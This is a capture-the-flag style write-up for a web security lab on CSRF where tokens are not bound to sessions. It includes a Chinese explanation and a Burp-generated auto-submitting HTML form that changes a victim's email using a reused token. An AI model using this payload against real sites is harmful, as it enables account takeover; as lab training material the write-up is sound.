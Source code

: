 # Lab: CSRF where token is not tied to user session

 This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

* wiener:peter
* carlos:montoya

## CSRF
* 每一個 token 指能用一次，但是 token 沒有綁定 session 造成任意的人只要用生成出來的 token 就可以改 email 了，不過要稍微注意一下 token 被用過就不能用了
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://ace51fd81e9849f6c03d305f002e006f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="exploit&#64;entroy&#46;tk" />
      <input type="hidden" name="csrf" value="7dRPT1S6ei8W6NVj3xU6uJiSSjUcSbul" />
    </form>
<script>document.forms[0].submit();</script>
  </body>
</html>

```